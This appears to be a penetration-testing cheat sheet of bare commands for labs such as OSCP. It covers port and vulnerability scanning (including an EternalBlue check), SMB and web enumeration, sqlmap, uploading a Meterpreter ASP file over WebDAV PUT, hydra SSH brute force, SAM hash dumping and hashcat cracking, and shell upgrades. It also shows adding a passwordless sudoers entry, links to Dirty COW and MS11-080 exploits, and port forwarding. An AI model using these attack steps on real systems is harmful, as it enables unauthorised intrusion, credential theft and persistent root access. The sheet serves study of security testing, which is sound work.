## ENUMERATION

### Find all open ports
```
nmap -sV -Pn -p- -T4 -A <IP>
nmap -Pn -sT -sV -A --script=default,banner -p- <IP>
nmap -n -A -sU -T4 <IP>
```
### Vulnerability Scan
#### eternalblue scan
```
nmap -p445 --script smb-vuln-ms17-010 <IP-range>
```

### linux enumeration 
```
enum4linux -a <IP>
```

## Samba shared folder access
```
smbclient \\\\10.10.10.10\\folder
```

## WEB PENTEST

### enumerate port 80
```
nikto -host http://<IP>
```

### sqlmap with request file
```
sqlmap -r search-test.txt -p param
```
### If PUT method is enabled
```
davtest -move -sendbd auto -url http://$ip
cadaver <IP>
cad> PUT met.asp met.asp
```

## ENCRYPTIONS AND DECRYPTIONS

### Detect the hash type
```
hash-identifier
```

### Password bruteforce using hydra
```
hydra -l bob -p password ssh://10.10.10.1 -t 4
hydra -L user.txt -P pass.txt ssh://10.10.10.1 -t 4
hydra -s <port> -L user.txt -P pass.txt ssh://10.10.10.1 -t 4
```

### samdump2
```
samdump2 SYSTEM SAM -o passwords.key
cat passwords.key | cut -d ":" -f4 >> hashvalue
hashcat -a 0 -m 1000 hashvalue rockyou.txt --force
```

### Online md5 cracker
```
https://www.md5online.org/md5-decrypt.html
```

## LINUX PRIVILAGE ESCALATION

## Check editable crontabs
```
cat /etc/crontab
```

### Shell upgrade
```
echo os.system('/bin/bash')
```

### upgraded it to a pseudo-terminal using python
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

### First do some privilage checking
```
http://www.securitysift.com/download/linuxprivchecker.py
```

### if you can edit sudoers file, just add this line
```
echo 'bob ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
```

## WINDOWS PRIVILAGE ESCALATION
### Windows File search
```
where /r c:\ proof.txt
```

### binary path add
```
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/ucb/
```

### Dirty COW Vulnerability
```
https://www.exploit-db.com/exploits/40839
```
### 'afd.sys' Local Privilege Escalation

#### Windows Xp service pack 3 and Windows 2000 service pack 2 is vulnerable to this.
exploit url:
```
https://raw.githubusercontent.com/abatchy17/WindowsExploits/master/MS11-080%20-%20AFD.sys/MS11-080.py
```
video: 
```
https://www.youtube.com/watch?v=rxNziQlk7sA
```

## PORT FORWARDING

## Windows port forwarding
```
netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport
```
## Linux port forwarding
```
ssh -p 9002 -L10000:127.0.0.1:10000 user@<IP2>
ssh -p 9002 -L10000:<IP1>:22 user@<IP2>
```
